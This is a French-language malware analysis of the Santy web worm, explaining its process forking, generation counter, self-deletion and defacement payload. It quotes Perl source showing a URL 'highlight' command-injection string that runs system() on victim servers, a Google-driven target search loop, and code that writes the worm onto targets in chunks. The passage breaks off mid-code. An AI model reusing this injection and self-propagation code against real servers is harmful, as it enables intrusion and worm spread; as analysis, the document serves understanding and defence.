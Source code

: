 La première opération que Santy effectue consiste à créer un processus fils. L'objectif est de se lancer sous une forme qui sera indépendante des autres processus et donc de pouvoir fonctionner tranquillement. On retrouve ensuite la variable $generation qui indique le niveau d'infection auquel nous nous trouvons actuellement. Par exemple si un serveur affiche _WebWorm generation 5_ cela signifie que le ver qui l'a infecté à touché 4 serveurs auparavant. Pour l'instant cette variable a pour valeur `x`, ce qui ne signifie pas grand-chose mais nous comprendrons le sens de cette affectation par la suite.  

Santy lance sa charge finale si le ver est de génération 3 ou supérieure. Dans ce cas toutes les pages web seront modifiées.
Le ver étant lancé il est donc chargé en mémoire. Il en profite pour ouvrir son propre code (le fichier dans lequel il se trouvait à l'origine) et le mémorise pour une utilisation ultérieure. Le fichier contenant le ver est alors supprimé afin d'effacer les traces de son passage.  

La boucle qui suit est assez dévastatrice : si le ver n'arrive pas à se connecter à Google et que la génération vaut 3 ou plus alors le ver lance la charge finale indéfiniment. En plus de modifier les fichiers, cette boucle va utiliser énormément de ressources du point de vue du processeur.

```pl
...
$self =~ s/my \$generation = (\d+);/'my $generation = ' . ($1 + 1) . ';'/e;

my $selfFileName = 'm1ho2of'; 
my $markStr = 'HYv9po4z3jjHWanN'; 
my $perlOpen = 'perl -e "open OUT,q(>' .
               $selfFileName . ') and print q(' . $markStr . ')"'; 
my $tryCode = '&highlight=%2527%252Esystem(' . str2chr($perlOpen) . ')%252e%2527';
...
```

La première ligne va modifier dynamiquement le code du ver en changeant la ligne `my $generation = x;` que nous avons vu précédemment. C'est de cette façon que Santy incrémente la variable generation d'intrusion en intrusion.  

La seconde ligne définie le nom du fichier correspondant au ver. Ce nom étant toujours le même il n'est pas très difficile de retrouver le ver sur une machine infectée.  

La troisième ligne définit une variable qui est utilisée comme une signature. Ce sont les opérations en rapport avec cette variable que j'ai mis le plus de temps à comprendre.  

Le ver définit alors une ligne de commande destinée à créer le fichier (sans le remplir) puis à afficher la signature.
Cette commande est ensuite encodée par `str2chr()` puis injectée dans une partie d'URL.  

Finissons notre étude du corps de Santy :

```pl
...
while(1)
{ 
  exit if -e 'stop.it'; 

  OUTER: for my $url (GoGoogle())
  { 

    exit if -e 'stop.it'; 

    $url =~ s/&highlight=.*$//; 
    $url .= $tryCode; 
    my $r = GrabURL($url); 
    next unless defined $r; 
    next unless $r =~ /$markStr/; 

    while($self =~ /(.{1,20})/gs)
    { 
      my $portion = '&highlight=%2527%252Efwrite(fopen(' . str2chr($selfFileName) .
                    ',' . str2chr('a') . '), ' . str2chr($1) . '),exit%252e%2527'; 

```